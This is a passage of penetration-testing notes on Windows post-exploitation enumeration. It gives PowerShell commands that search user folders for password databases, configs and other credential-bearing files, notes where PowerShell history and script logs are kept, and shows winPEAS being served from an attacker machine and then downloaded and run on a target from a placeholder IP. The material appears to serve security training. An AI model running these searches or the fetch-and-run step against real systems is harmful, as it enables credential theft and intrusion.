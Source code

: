 **Running Processes:**
```powershell
Get-Process
Get-Process -Name <name> | Select-Object Path, Id
```

---

### Searching for Sensitive Files

Users are often lazy and store sensitive information in plain text. Examples:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.doc*,*.xls* -File -Recurse -ErrorAction SilentlyContinue
```

Comprehensive search:
```powershell
Get-ChildItem -Path C:\Users\ `
-Include *.txt,*.pdf,*.xls*,*.doc*,*.ini,*.csv,*.json,*.config,*.ps1,*.bat,*.cmd,*.log,*.bak,*.rdp `
-File -Recurse -ErrorAction SilentlyContinue | Select-Object FullName, Length, LastWriteTime
```

---

## PowerShell Logging and Artifacts

### History & Transcripts

- `Get-History`: view current session command history
- `(Get-PSReadlineOption).HistorySavePath`: persistent history location
- Transcript files log command output
- **Script Block Logging** (Event ID 4104): logs full PowerShell scripts and command context

---

## Tools for Enumeration

### winPEAS
Copy to target:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server
```

Fetch on target:
```powershell
iwr -uri http://<IP>/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
